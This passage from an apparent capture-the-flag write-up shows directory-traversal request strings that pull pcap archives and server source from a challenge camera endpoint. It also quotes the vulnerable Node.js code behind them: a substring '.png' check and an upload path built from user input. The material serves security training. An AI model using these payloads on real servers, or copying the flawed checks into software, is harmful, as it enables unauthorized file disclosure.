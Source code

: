 **Serial: XKCD988**

This serial is an [XKCD](https://xkcd.com/988/) about Christmas music! 

We also want the zip file, 20150225093040.zip, for pcaps and the static image, factory_cam_2.zip. 

{% highlight bash %}
/cam?camera=../upload/XoWsWzBB/../1337/exploit.png/../../../../files/20150225093040.zip

/cam?camera=../upload/XoWsWzBB/../1337/exploit.png/../../../../files/factory_cam_2.zip
{% endhighlight %}

####SG2 Firmware Analysis

I decided it would be a good idea to dump 'index.js' out of 'www/routes' so I had a better idea of what was going on for this specific SG. This will possibly help with what is to come with future SGs assuming my idea is correct of each SG having an updated piece of firmware. 

It is worth noting that in the JavaScript we see that Auggie administered this SuperGnome. Such cunning cuteness from the CounterHack squad!

{% highlight bash %}
/cam?camera=../upload/XoWsWzBB/../1337/exploit.png/../../../../routes/index.js
{% endhighlight %}

Looking at the two functions I exploited for SG2 you can see they are different than the firmware in SG1.

In the camera viewer get requests we can now see all the path needed was ".png" in the user input.

{% highlight java %}
// CAMERA VIEWER
// Note: to limit directory traversal issues, this code checks to make sure the user asked for a .png file.
router.get('/cam', function(req, res, next) {
  var camera = unescape(req.query.camera);
  // check for .png
  if (camera.indexOf('.png') == -1)
    camera = camera + '.png'; // add .png if its not found
  console.log("Cam:" + camera);
  fs.access('./public/images/' + camera, fs.F_OK | fs.R_OK, function(e) {
    if (e) {
	    res.end('File ./public/images/' + camera + ' does not exist or access denied!');
    }
  });
  fs.readFile('./public/images/' + camera, function (e, data) {
    res.end(data);
  });
});
{% endhighlight %}

The second part of our exploit was the upload functionality in settings. 

The settings code is not that different as far as our exploit is concerned and still allowed a user to use filen to create a new directory.

{% highlight java %}
// SETTINGS UPLOAD
router.post('/settings', function(req, res, next) {
  if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { //settings upload allowed for admins (Auggie)
    var filen = req.body.filen;
    var dirname = '/gnome/www/public/upload/' + newdir() + '/' + filen;
    var msgs = [];
    var free = 0;
    var error = false;
    disk.check('/', function(e, info) {
      free = info.free;
    });
    try {